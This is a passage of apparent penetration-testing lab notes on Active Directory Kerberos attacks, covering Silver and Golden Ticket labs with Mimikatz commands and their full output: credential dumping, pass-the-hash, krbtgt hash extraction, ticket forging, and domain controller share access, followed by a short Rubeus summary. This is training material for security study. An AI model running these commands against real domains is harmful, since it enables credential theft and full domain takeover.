    20  02b94effa543b50ed35554aba4513217
    21  dd70e09a6db7ad5ef79130e822822958
    22  42bb09b48b9a6a46543b240ef1833f8e
    23  dd70e09a6db7ad5ef79130e822822958
    24  7d2147f3226454c83a049a4b5168c57c
    25  490004fe8af3dc257f1cb1ce49d0db58
    26  03a5e47f6ed206a47c932658c66f46b9
    27  987f82b79fc66a97a0e567c0eab06737
    28  8fcb553334df84c936396a2b44ec79d3
    29  987f82b79fc66a97a0e567c0eab06737

 * Kerberos
    Default Salt : RESEARCH.SECURITY.LOCALhostprod.research.security.local
    Credentials
      des_cbc_md5       : 91a2ab13b57ab0b0
    OldCredentials
      des_cbc_md5       : 1376a4dcb50b13b5

 * Kerberos-Newer-Keys
    Default Salt : RESEARCH.SECURITY.LOCALhostprod.research.security.local
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : d2aa61325a0a643aab800e70077ca11202d9d09772f7694067b11f505b7d8ddc
      aes128_hmac       (4096) : 38bb55ffd6fe025eddafae4e1c51d32a
      des_cbc_md5       (4096) : 91a2ab13b57ab0b0
    OldCredentials
      aes256_hmac       (4096) : a3e85780c88b5efbbe42d159ad9257a70f0f8e04a0287c1115b181bb528602fb
      aes128_hmac       (4096) : 840c388a61f200c4d63d50ac7bf5f49a
      des_cbc_md5       (4096) : 1376a4dcb50b13b5
    OlderCredentials
      aes256_hmac       (4096) : 53e792b4a9cc2ab6f968feb8fb56517600f66aa9107821779cbca7a4fc6d575f
      aes128_hmac       (4096) : 34a6477ad06d89905fc45665e5bbba01
      des_cbc_md5       (4096) : 31611c6b62f234a4
```

Now, we are all set to generate a Silver ticket. 

*Terminal #3* (administrator session).

*Generate a Silver ticket*

`Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:research.SECURITY.local /sid:S-1-5-21-1693200156-3137632808-18580025440 /target:prod.research.SECURITY.local /service:CIFS /rc4:33ba952dd24648e1f12024e53111b2c2 /ptt`:
```
Hostname: client.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # kerberos::golden /user:administrator /domain:research.security.local /sid:S-1-5-21-1693200156-313
7632808-1858025440 /target:prod.research.security.local /service:CIFS /rc4:33ba952dd24648e1f12024e53111b2c2 /ptt
User      : administrator
Domain    : research.security.local (RESEARCH)
SID       : S-1-5-21-1693200156-3137632808-1858025440
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 33ba952dd24648e1f12024e53111b2c2 - rc4_hmac_nt ←
Service   : CIFS ←
Target    : prod.research.security.local ←
Lifetime  : 6/5/2024 1:24:48 PM ; 6/3/2034 1:24:48 PM ; 6/3/2034 1:24:48 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'administrator @ research.security.local' successfully submitted for current session
```

The parameters we specified are:
- `/domain`: the FQDN of the domain
- `/sid`: the SID of the domain
- `/target`: the FQDN of the target server
- `/service`: the target service name
- `/rc4`: the NTLM/RC4 password hash
- `/user`: the username to impersonate (can be fake too).

*Check the ticket*

`klist`:
```
Current LogonId is 0:0x29e0e2

Cached Tickets: (1)

#0>     Client: administrator @ research.security.local ←
        Server: CIFS/prod.research.security.local @ research.security.local ←
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 6/5/2024 13:24:48 (local)
        End Time:   6/3/2034 13:24:48 (local)
        Renew Time: 6/3/2034 13:24:48 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

We have successfully generated and injected the Silver ticket, targeting the CIFS service on "prod.research.SECURITY.local" (DC).

*Access the Domain Controller C share*

`ls \\prod.research.security.local`:
```
    Directory: \\prod.research.security.local\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        8/22/2013   3:52 PM                PerfLogs
d-r---        10/1/2021   4:25 PM                Program Files
d-----        9/21/2021  12:28 PM                Program Files (x86)
d-r---        9/27/2021   9:00 AM                Users
d-----        9/27/2021   9:19 AM                Windows
```

### AD Persistence: Golden Ticket - Video/Lab

A **Golden Ticket** attack is a malicious cybersecurity attack where <u>a threat actor gains almost unlimited access to an organization's domain (devices, files, domain controllers, etc.)</u> by exploiting weaknesses in the Kerberos authentication protocol used by Microsoft Active Directory (AD). This allows the attacker to bypass normal authentication mechanisms, <u>by creating a forged Kerberos ticket</u>.

The increasing shift to cloud services and remote work has expanded the attack surface. Employees logging into company systems from personal devices and networks increase the risk of network breaches.
This in turn has increased the risk that attackers will be able to break into a network and use a Golden Ticket attack to gain access.

#### Lab Environment

In this lab environment, GUI access to Windows Server 2012 machine acts as your workstation. You are logged in with the Domain User account "Research/Student". This workstation has been configured with vulnerabilities linked to Golden Ticket attacks - a potent form of Kerberos manipulation, providing a real-world scenario to practice your cybersecurity skills.

Your task is to simulate a 'Golden Ticket' attack to exploit the Kerberos ticket-granting ticket (TGT). If executed successfully, you could gain extensive privileges and control over the Active Directory domain.

**Objective**: Simulate a Kerberos: Golden Ticket attack to generate a ticket-granting ticket, and escalate privileges to obtain domain controller access.

Below are the tasks that you need to perform:
1. Extract Administrator's NTML Hash
2. Execute Pass-the-Hash Attack
3. Retrieve KRBTGT Account Hash
4. Generate and Implement a Golden Ticket
5. Validate Access to Domain Controller.

The best tools for this lab are:
- PowerView.ps1
- Invoke-Mimikatz.ps1.

#### Lab Solution

*Terminal #1* (run as administrator).

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\PowerView.ps1`: to import the [PowerView module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).
`Import-Module .\Invoke-Mimikatz.ps1`: to import the  [Invoke-Mimikatz module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).

`Get-DomainSID`: to get the SID (Security Identifier) of the current domain.
(Obtaining the domain SID, which is required for creating a Golden Ticket.)

`ls \\prod.research.SECURITY.local\c$`: to list the contents of the C$ share on the 'prod.research.SECURITY.local' machine (but access is denied).
(Attempting to access the administrative share on a target machine to check for existing access permissions.)

`Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'`: to enable debug privileges and retrieve logon passwords.
(Enabling debug privileges and extracting credentials from memory, including NTLM hashes.)

`Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.SECURITY.local /ntlm:84398159ce4d01cfe10cf34d5dae3909 /run:powershell.exe"'`: to pass the hash (PTH) and run PowerShell with the specified NTLM hash for the 'administrator' user in the 'research.SECURITY.local' domain.
(Using the extracted NTLM hash to authenticate as the administrator and run a new PowerShell session.)

*Terminal #2* (elevated session).

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\Invoke-Mimikatz.ps1`: to import the  [Invoke-Mimikatz module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).

`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName prod.research.SECURITY.local`: to dump the LSA secrets from the specified computer.
(Dumping LSA secrets, which includes sensitive information like the KRBTGT account hash necessary for Golden Ticket creation.)

`Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:research.SECURITY.local /sid:S-1-5-21-1693200156-3137632808-18580025440-500 /krbtgt:0e3cab3ba66afddb664025d96a8dc4d2 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`: to create and inject a Golden Ticket for the specified user, domain, and SID.
(Creating and injecting a Golden Ticket, which grants the specified user unlimited access to the domain.)
`klist`: to list the Kerberos tickets for the current user session.
(Verifying that the Golden Ticket has been successfully injected by listing the Kerberos tickets.)

`ls \\prod.research.SECURITY.local\c$`: to list the contents of the C$ share on the 'prod.research.SECURITY.local' machine.
(Accessing the C$ share again to confirm that the Golden Ticket has granted the necessary privileges.)

#### Lab Execution

1. **Extract Administrator’s NTML Hash**

To proceed with the attack, you need to ensure that you are running PowerShell as a local administrator. This ensures that you have the necessary permissions to execute the Invoke-Mimikatz commands.

*Terminal #1* (run as administrator).

`powershell -ep bypass`

`cd C:\Tools`, `Import-Module .\PowerView.ps1`, `Import-Module .\Invoke-Mimikatz.ps1`

`Get-Domain`:
```
Forest                  : SECURITY.local
DomainControllers       : {prod.research.SECURITY.local} ←
Children                : {}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  : SECURITY.local
PdcRoleOwner            : prod.research.SECURITY.local
RidRoleOwner            : prod.research.SECURITY.local
InfrastructureRoleOwner : prod.research.SECURITY.local
Name                    : research.SECURITY.local ←
```

`Get-DomainSID`:
```
S-1-5-21-1693200156-3137632808-1858025440
```

*Verify Domain Controller Access*

Before extracting the hash, check if you already have access to the domain controller. It's useful to verify this before proceeding with the attack.

`ls \\prod.research.security.local\c$`:
```
ls : Access is denied ←
At line:1 char:1
+ ls \\prod.research.security.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\prod.research.security.local\c$:String) [Get-ChildItem], Unauthoriz
   edAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

ls : Cannot find path '\\prod.research.security.local\c$' because it does not exist.
At line:1 char:1
+ ls \\prod.research.security.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (\\prod.research.security.local\c$:String) [Get-ChildItem], ItemNotFound
   Exception
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
```

This command is attempting to list the directory of the C drive on the domain controller at "prod.research.security.local". If access is granted, you won't need to proceed with extracting the Administrator's NTML hash.

*Extract Admin NTML Hash*

`Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'`:
```
Hostname: client.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # privilege::debug
Privilege '20' OK

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 297786 (00000000:00048b3a)
Session           : RemoteInteractive from 2
User Name         : student
Domain            : RESEARCH
Logon Server      : PROD
Logon Time        : 6/5/2024 2:16:45 PM
SID               : S-1-5-21-1693200156-3137632808-1858025440-1610
        msv :
         [00000003] Primary
         * Username : student
         * Domain   : RESEARCH
         * NTLM     : 228dd870e2ea2f38fa2c60d4c661b108
         * SHA1     : 5b1f5f87084bccd5d1c6b473fcd7db347a747e29
         [00010000] CredentialKeys
         * NTLM     : 228dd870e2ea2f38fa2c60d4c661b108
         * SHA1     : 5b1f5f87084bccd5d1c6b473fcd7db347a747e29
        tspkg :
        wdigest :
         * Username : student
         * Domain   : RESEARCH
         * Password : (null)
        kerberos :
         * Username : student
         * Domain   : RESEARCH.SECURITY.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 244535 (00000000:0003bb37)
Session           : Interactive from 1
User Name         : administrator ←
Domain            : RESEARCH ←
Logon Server      : PROD ←
Logon Time        : 6/5/2024 2:16:13 PM
SID               : S-1-5-21-1693200156-3137632808-1858025440-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : RESEARCH
         * NTLM     : 84398159ce4d01cfe10cf34d5dae3909 ←
         * SHA1     : ccc47c4f9541f99b020d38b8f7ea10f7b4b8595c
         [00010000] CredentialKeys
         * NTLM     : 84398159ce4d01cfe10cf34d5dae3909
         * SHA1     : ccc47c4f9541f99b020d38b8f7ea10f7b4b8595c
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : RESEARCH
         * Password : (null)
        kerberos :
         * Username : administrator
         * Domain   : RESEARCH.SECURITY.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 6/5/2024 2:14:53 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :
```

The `privilege::debug` command enables debug privileges in the current session, while `sekurlsa::logonpasswords` extract credentials (including NTLM hashes) from memory.

2. **Execute Pass-the-Hash Attack**

Now that we've successfully extracted the NTML hash of the administrator, we can use this information to authenticate ourselves as the administrator without needing their actual password. This technique is known as a Pass-the-Hash (PTH) attack.

`Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:84398159ce4d01cfe10cf34d5dae3909 /run:powershell.exe"'`:
```
Hostname: client.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:84398159ce4d01cfe10cf34d5
dae3909 /run:powershell.exe
user    : administrator ←
domain  : research.security.local ←
program : powershell.exe ←
impers. : no
NTLM    : 84398159ce4d01cfe10cf34d5dae3909 ←
  |  PID  3104
  |  TID  3228
  |  LSA Process is now R/W
  |  LUID 0 ; 3089749 (00000000:002f2555)
  \_ msv1_0   - data copy @ 0000007E91E0AD30 : OK !
  \_ kerberos - data copy @ 0000007E91639998
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000007E91E121B8 (16) -> null
```

In this command, you're using the `sekurlsa::pth` functionality of Mimikatz, which creates a new process with the supplied credentials (NTLM hash). This new process will have the same access privileges as the original user (Administrator in this case).

*Terminal #2* (elevated session).

3. **Retrieve KRBTGT Account Hash**

After successfully performing a Pass-the-Hash attack, the next step is to retrieve the hash of the krbtgt account. The krbtgt account is a service account that issues Kerberos Ticket Granting Tickets (TGTs) within an Active Directory environment.

*Extracting the krbtgt account's password NTLM hash*

`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName prod.research.security.local`:
```
Hostname: client.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # lsadump::lsa /patch
Domain : RESEARCH / S-1-5-21-1693200156-3137632808-1858025440

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 84398159ce4d01cfe10cf34d5dae3909

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt ←
LM   :
NTLM : 0e3cab3ba66afddb664025d96a8dc4d2 ←

RID  : 00000459 (1113)
User : groupmanager
LM   :
NTLM : bc311edfe228bb07979d6a6cbeca14cb

RID  : 0000064a (1610)
User : student
LM   :
NTLM : 228dd870e2ea2f38fa2c60d4c661b108

RID  : 000003f1 (1009)
User : PROD$
LM   :
NTLM : 2513548150da1f384c08ab973f0def9b

RID  : 00000458 (1112)
User : SECURITY$
LM   :
NTLM : 3851a76dc1b568179f71427c95971537
```

`lsadump::lsa` dumps the LSA secrets, and `/patch` makes Mimikatz patch the process to allow exporting secrets.

4. **Generate and Implement a Golden Ticket**

The final step is to create a Golden ticket. This is a forged Ticket Granting Ticket (TGT) that can provide you with extensive privileges and control over the Active Directory domain.

`Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:research.SECURITY.local /sid:S-1-5-21-1693200156-3137632808-18580025440-500 /krbtgt:0e3cab3ba66afddb664025d96a8dc4d2 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`:
```
Hostname: client.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # kerberos::golden /user:administrator /domain:research.security.local /sid:S-1-5-21-1693200156-313
7632808-1858025440 /krbtgt:0e3cab3ba66afddb664025d96a8dc4d2 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080
 /ptt
User      : administrator ←
Domain    : research.security.local (RESEARCH) ←
SID       : S-1-5-21-1693200156-3137632808-1858025440 ←
User Id   : 500 ←
Groups Id : *512 ←
ServiceKey: 0e3cab3ba66afddb664025d96a8dc4d2 - rc4_hmac_nt ←
Lifetime  : 6/5/2024 2:52:25 PM ; 6/6/2024 12:52:25 AM ; 6/12/2024 2:52:25 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'administrator @ research.security.local' successfully submitted for current session ←
```

The parameters we specified are:
- `kerberos::golden` generates a golden ticket.
- `/user` is the user for whom the ticket is generated.
- `/domain` specifies the domain.
- `/sid` is the security identifier of the domain.
- `/krbtgt` is the NTLM hash of the krbtgt account.
- `/id` and `/groups` specify the user's RID and group membership.
- `/startoffset`, `/endin`, and `/renewmax` set the ticket's valid time, expiration time, and maximum renewable time.
- `/ptt` injects the ticket into the current session.

After executing the above steps, you should have gained extensive privileges and control over the Active Directory domain.

5. **Validate Access to Domain Controller**

*Checking Kerberos Ticket Cache*

`klist`:
```
Current LogonId is 0:0x2f2555

Cached Tickets: (1)

#0>     Client: administrator @ research.security.local ←
        Server: krbtgt/research.security.local @ research.security.local ←
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 6/5/2024 14:52:25 (local)
        End Time:   6/6/2024 0:52:25 (local)
        Renew Time: 6/12/2024 14:52:25 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

The command `klist` is used to display the tickets present in the Kerberos ticket cache. By executing this command, you can check if the TGS obtained is successfully stored in the ticket cache. The output will show the details of the TGS, including the service, expiration time, and session key information.

*Verify access to the domain controller*

`ls \\prod.research.SECURITY.local\c$`:
```
    Directory: \\prod.research.security.local\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        8/22/2013   3:52 PM                PerfLogs
d-r---        10/1/2021   4:25 PM                Program Files
d-----        9/21/2021  12:28 PM                Program Files (x86)
d-r---        9/27/2021   9:00 AM                Users
d-----        9/27/2021   9:19 AM                Windows
```

The command `dir \prod.research.security.local\c$` is used to perform a directory listing of the root directory (C drive) on the domain controller named "prod.research.security.local".
By executing this command, you are attempting to access and list the contents of the root directory (C:) on the specified domain controller.

---

## Active Directory Penetration Testing - Extras

### Rubeus - Tool

**Rubeus** is <u>a tool used for Kerberos-related tasks and attacks</u> within a Windows Active Directory environment. It is often used by penetration testers and security professionals to perform various actions, including:

1. **Kerberos Ticket Extraction and Injection**: Rubeus can extract Kerberos tickets (TGTs and service tickets) from memory and inject them back into memory, facilitating lateral movement within a network.
2. **Pass-the-Ticket Attacks**: It enables attackers to use stolen Kerberos tickets to authenticate to other systems without needing the user's plaintext password. 
3. **Kerberoasting**: Rubeus can request service tickets for service accounts and extract the ticket hashes, which can then be cracked offline to retrieve service account passwords.
4. **Overpass-the-Hash (Pass-the-Key)**: It allows users to perform Overpass-the-Hash attacks, where NTLM hashes are used to request Kerberos tickets.
5. **Ticket Renewal and Harvesting**: The tool can renew tickets and gather all available tickets from memory, aiding in persistence and ongoing access.

Overall, Rubeus is a powerful tool for exploiting and manipulating the Kerberos authentication protocol, making it valuable for both offensive security operations and defensive security assessments to identify potential vulnerabilities and weaknesses in Kerberos implementations.

---
---
